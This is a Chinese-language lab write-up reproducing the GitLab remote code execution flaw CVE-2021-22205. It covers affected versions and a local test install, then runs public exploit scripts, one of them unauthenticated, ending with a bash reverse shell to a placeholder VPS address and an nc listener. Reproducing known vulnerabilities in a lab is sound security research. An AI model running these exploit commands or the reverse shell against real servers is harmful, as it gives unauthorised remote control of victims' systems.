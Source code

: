 # 0x01 影响版本
Gitlab CE/EE < 13.10.3  
Gitlab CE/EE < 13.9.6  
Gitlab CE/EE < 13.8.8  
# 0x02 环境搭建
使用环境：CentOS7.6.1810_x64_en-us  
下载rpm安装包：https://packages.gitlab.com/gitlab/gitlab-ce/packages/ol/7/gitlab-ce-13.10.1-ce.0.el7.x86_64.rpm  
安装：sudo rpm -i ./gitlab-ce-13.10.1-ce.0.el7.x86_64.rpm  
修改第1处配置：sudo vim /etc/gitlab/gitlab.rb
```
external_url 'http://192.168.202.133:1028'
nginx['listen_addresses'] = ['*', '[::]']
nginx['listen_port'] = 1028
nginx['listen_https'] = false
```
修改第2处配置：sudo vim /opt/gitlab/embedded/conf/nginx.conf
```
server {
        listen       *:1028;
        server_name  192.168.202.133;
        if ($http_host = "") {
            set $http_host_with_default "ip:1028";
        }
```
临时关闭防火墙
```
sudo systemctl stop firewalld
systemctl status firewalld
```
重新加载配置文件
```
gitlab-ctl reconfigure
```
重启gitlab
```
gitlab-ctl restart
```
成功配置后，访问目标地址如下图  
![image](./pic/1.png)  
首次访问需要更改密码，此处更改密码对应的是管理员用户：admin@example.com  
通过登录界面的注册功能，注册一个新用户，并登录管理员用户通过注册申请，最终登录普通用户如下图  
![image](./pic/2.png)  
# 0x03 漏洞复现1（需要验证）
直接使用工具[https://github.com/mr-r3bot/Gitlab-CVE-2021-22205](https://github.com/mr-r3bot/Gitlab-CVE-2021-22205)复现漏洞会有2个小问题  
1、当验证用户使用管理员时，程序会报错，如下图  
![image](./pic/a.png)  
根据漏洞的基本原理及报错提示，大概猜测报错原因是管理员页面的html内容和普通用户页面的html内容不一致  
2、当验证用户使用普通用户时，提示RCE成功触发，但是没有回显，如下图  
![image](./pic/3.png)  
将漏洞利用的方式改为创建文件，命令如下
```
python3 ./exploit.py -u ybdtd -p nihaomadadada -t http://192.168.202.133:1028 -c "touch ybdtybdt.txt"
```
提示RCE成功触发，到服务器端查看，发现成功创建此文件，用户权限是git，如下图  
![image](./pic/4.png)  
# 0x04 漏洞复现2（不需要验证）
无需验证的原理是，可先向[http://192.168.202.133:1028/users/sign_in](http://192.168.202.133:1028/users/sign_in)发起请求获取到如下token
```
<meta name="csrf-param" content="authenticity_token" />
<meta name="csrf-token" content="FDMYEP3KEj0GcWHB6ordjmI0rX5kC3zNOalicxxvG4KaDHWgQuEzvpYStFw3XfxVxeD67MNvIxkoxIGRuY/kDg==" />
```
然后带着token无需登录即可访问上传接口

借助工具：https://github.com/Al1ex/CVE-2021-22205  
vps上开启监听
```
nc -lnvvvp 1024
```
执行如下命令反弹shell
```
python3 ./CVE-2021-22205.py -a true -t http://192.168.202.133:1028 -c "bash -i >& /dev/tcp/xx.xx.xx.xx/1024 0>&1"
```
成功接收到反弹shell，如下图  
![image](./pic/5.png)  
# 0x05 参考链接
https://mp.weixin.qq.com/s/cy8OOzHD28Of3zC32S_4ow  
https://blog.csdn.net/yzd524850313/article/details/113118193  
https://www.jianshu.com/p/56541f6c01a5  
https://www.cnblogs.com/ybit/p/14918949.html  
https://blog.csdn.net/smellycat000/article/details/121005824  
